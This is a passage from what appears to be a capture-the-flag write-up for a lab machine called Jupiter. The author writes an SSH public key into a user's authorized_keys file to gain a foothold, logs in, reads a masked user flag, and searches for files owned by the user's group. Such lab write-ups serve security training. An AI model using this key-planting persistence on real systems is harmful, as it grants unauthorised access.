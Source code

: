 There is a `.ssh` folder though, so we can generate a keypair and upload it to the machine. Once our public key is on the machine and put in `/home/juno/.ssh/authorized_keys` we have SSH access. (The key I have created is called `jupiter_rsa`)

```console
toasty@kali$ ssh -i jupiter_rsa juno@10.10.11.216
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)
...SNIP

Last login: Wed Jun  7 15:13:15 2023 from 10.10.14.23
juno@jupiter:~$ id
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)

```

### User.txt

Finally we can get the user flag:

```console
juno@jupiter:~$ cat user.txt 
7a4f****************************
```

## Machine Flag

### Enumeration as Juno

Again, once we get new access we start our enumeration steps over. One thing that we see from previous commands is that `juno` is in the `science` group. Let's look for files/directories that are owned by the `science` group.

```console
juno@jupiter:~$ find / -group science 2>/dev/null
/opt/solar-flares
/opt/solar-flares/flares.csv
/opt/solar-flares/xflares.csv
/opt/solar-flares/map.jpg
/opt/solar-flares/start.sh
/opt/solar-flares/logs
/opt/solar-flares/logs/jupyter-2023-03-10-25.log
/opt/solar-flares/logs/jupyter-2023-03-08-37.log
/opt/solar-flares/logs/jupyter-2023-03-08-38.log
/opt/solar-flares/logs/jupyter-2023-03-08-36.log
/opt/solar-flares/logs/jupyter-2023-03-09-11.log
/opt/solar-flares/logs/jupyter-2023-03-09-24.log
/opt/solar-flares/logs/jupyter-2023-03-08-14.log
/opt/solar-flares/logs/jupyter-2023-03-09-59.log
/opt/solar-flares/flares.html
/opt/solar-flares/cflares.csv
/opt/solar-flares/flares.ipynb
/opt/solar-flares/.ipynb_checkpoints
/opt/solar-flares/mflares.csv
```
